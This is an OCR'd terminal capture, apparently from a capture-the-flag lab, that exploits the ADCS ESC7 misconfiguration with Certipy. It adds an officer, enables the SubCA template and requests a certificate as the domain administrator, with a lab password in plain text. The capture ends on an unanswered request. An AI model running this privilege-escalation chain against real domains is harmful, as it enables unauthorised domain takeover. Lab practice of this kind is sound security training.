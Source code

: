        Enroll                          : MENTALITY.THL\Authenticated Users
                                          MENTALITY.THL\svcapp1
        ManageCa                        : MENTALITY.THL\svcapp1
                                          MENTALITY.THL\Domain Admins
                                          MENTALITY.THL\Enterprise Admins
                                          MENTALITY.THL\Administrators
        ManageCertificates              : MENTALITY.THL\Domain Admins
                                          MENTALITY.THL\Enterprise Admins
                                          MENTALITY.THL\Administrators
    [+] User Enrollable Principals      : MENTALITY.THL\svcapp1
                                          MENTALITY.THL\Authenticated Users
    [+] User ACL Principals             : MENTALITY.THL\svcapp1
    [!] Vulnerabilities
      ESC7                              : User has dangerous permissions.
Certificate Templates                   : [!] Could not find any certificate templates
                                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Documents/mentality]
└─$ certipy-ad ca -ca 'mentality-WIN-9FQTT7GPAVK-CA' -add-officer svcapp1 -username svcapp1@mentality.thl -password 'Patito12345'             

Certipy v5.0.2 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: MENTALITY.THL.
[!] Use -debug to print a stacktrace
[*] Successfully added officer 'svcapp1' on 'mentality-WIN-9FQTT7GPAVK-CA'
                                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Documents/mentality]
└─$ certipy-ad ca -ca 'mentality-WIN-9FQTT7GPAVK-CA' -enable-template SubCA -username svcapp1@mentality.thl -password 'Patito12345'             
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: MENTALITY.THL.
[!] Use -debug to print a stacktrace
[*] Successfully enabled 'SubCA' on 'mentality-WIN-9FQTT7GPAVK-CA'
                                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Documents/mentality]
└─$ certipy-ad req -ca 'mentality-WIN-9FQTT7GPAVK-CA' -template SubCA -username svcapp1@mentality.thl -password 'Patito12345' -upn administrator@mentality.thl
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: MENTALITY.THL.
[!] Use -debug to print a stacktrace
[*] Requesting certificate via RPC
[*] Request ID is 5
[-] Got error while requesting certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
Would you like to save the private key? (y/N): y
[*] Saving private key to '5.key'
[*] Wrote private key to '5.key'
[-] Failed to request certificate
                                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Documents/mentality]
└─$ certipy-ad req -ca 'mentality-WIN-9FQTT7GPAVK-CA' -template SubCA -username svcapp1@mentality.thl -password 'Patito12345' -upn administrator@mentality.thl
Certipy v5.0.2 - by Oliver Lyak (ly4k)
